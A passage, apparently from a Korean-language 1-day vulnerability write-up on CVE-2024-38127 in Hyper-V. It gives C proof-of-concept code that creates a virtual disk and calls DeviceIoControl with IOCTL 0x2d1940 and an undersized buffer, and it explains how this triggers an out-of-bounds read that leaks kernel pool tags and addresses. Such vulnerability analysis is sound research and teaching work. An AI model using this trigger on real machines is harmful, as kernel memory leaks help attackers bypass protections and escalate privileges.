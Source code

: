 ```c

	VStorType.DeviceId = VIRTUAL_STORAGE_TYPE_DEVICE_UNKNOWN;

	status = CreateVirtualDisk(
		&VStorType,
		VhdxPath,
		VIRTUAL_DISK_ACCESS_NONE,
		NULL,
		CREATE_VIRTUAL_DISK_FLAG_FULL_PHYSICAL_ALLOCATION,
		0,
		&CreateParam,
		NULL,
		&Vhdx
	);
```

이후 얻어진 HANDLE을 사용해서 DeviceIoControl을 호출해서 취약점을 트리거할 수 있습니다.

```c
	DWORD InBuffer = 5;
	status = DeviceIoControl(
		Vhdx,
		0x2d1940,
		&InBuffer,
		4,
		OutBuffer,
		0x20,
		NULL,
		NULL);
```

위 코드에서는 `DeviceIoControl`의 `nOutBufferSize` 인자로 0x20을 사용했지만 실제 쓰이는 데이터는 그 이상이기 때문에 충분히 큰 메모리를 할당해줄 필요가 있습니다. DeviceIoControl 호출은 실패하지만 데이터는 제대로 복사가 되기 때문에 OOB Read된 데이터를 확인해보면 아래와 같이 Non paged pool 메모리의 태그나 커널 메모리 주소로 보이는 값을 볼 수 있습니다.

![image.png](hyperv-1dayclass_CVE-2024-38127/image.png)
